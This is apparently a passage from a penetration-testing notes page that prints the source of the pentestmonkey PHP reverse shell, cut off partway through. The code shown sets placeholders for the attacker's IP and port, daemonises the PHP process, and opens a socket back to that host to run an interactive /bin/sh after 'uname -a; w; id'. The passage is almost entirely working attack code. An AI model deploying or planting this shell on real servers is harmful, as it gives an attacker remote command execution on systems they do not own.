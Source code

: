 {% code title="phpRevShell.php" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '';  // Put your IP between the quotes
  $port = ;  // Put your port here
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;

  //
  // Daemonise ourself if possible to avoid zombies later
  //

  // pcntl_fork is hardly ever available, but will allow us to daemonise
  // our php process and avoid zombies.  Worth a try...
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

```